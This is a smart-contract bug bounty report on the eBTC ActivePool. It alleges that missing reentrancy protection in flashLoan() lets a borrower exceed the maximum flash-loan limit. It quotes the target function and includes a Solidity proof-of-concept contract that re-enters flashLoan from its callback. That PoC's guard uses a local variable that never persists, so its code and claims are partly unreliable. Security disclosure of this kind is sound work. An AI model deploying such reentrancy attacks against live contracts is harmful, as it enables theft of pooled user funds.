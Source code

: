 
# Reentrancy on ActivePool allows users to borrow greater than Max Flash Loan

Submitted on Thu Feb 22 2024 06:24:10 GMT-0400 (Atlantic Standard Time) by @shanb1605 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28605

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/ActivePool.sol

Impacts:
- Smart contract unable to operate due to lack of token funds
- Temporary freezing of funds for at least 15 minutes
- Bypassing Max Limit of Flash Loan amount

## Description
## Brief/Intro
The `flashLoan()` allows users to borrow collateral on Active Pool. The amount that can be borrowed is limited to `maxFlashLoan(token)` means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function. 

## Vulnerability Details
The ActivePool contract misses reentrancy protection on `flashLoan()` which leads to borrowing over the max borrow limit of the token.
```solidity
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "ActivePool: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `token` is implicit in the requires above // also checks for paused
        require(amount <= maxFlashLoan(token), "ActivePool: Too much");

        uint256 amountWithFee = amount + fee;
        uint256 oldRate = collateral.getPooledEthByShares(DECIMAL_PRECISION);

        collateral.transfer(address(receiver), amount);

        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "ActivePool: IERC3156: Callback failed"
        );

        collateral.transferFrom(address(receiver), address(this), amountWithFee);

        collateral.transfer(feeRecipientAddress, fee);

        require(
            collateral.balanceOf(address(this)) >= collateral.getPooledEthByShares(systemCollShares),
            "ActivePool: Must repay Balance"
        );
        require(
            collateral.sharesOf(address(this)) >= systemCollShares,
            "ActivePool: Must repay Share"
        );
        require(
            collateral.getPooledEthByShares(DECIMAL_PRECISION) == oldRate,
            "ActivePool: Should keep same collateral share rate"
        );

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

## Impact Details
Bypass the max borrow amount and borrow until the Pool rans out of collateral.

## References
MakerDao has Reentrancy Protection on the FlashLoan module:
https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137

        
## Proof of concept
## Proof of Concept
```solidity
pragma solidity ^0.8.0;

interface ActivePool {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```

* First `call_Flashloan()` is executed to borrow max amount of tokens.
* Inside `onFlashLoan` `some_actions()` will executed to borrow again the collateral from ActivePool.
* It sets `attack_done = true` to prevent an unbounded loop. 
* Further actions will be carried out with the Flash Loan amount.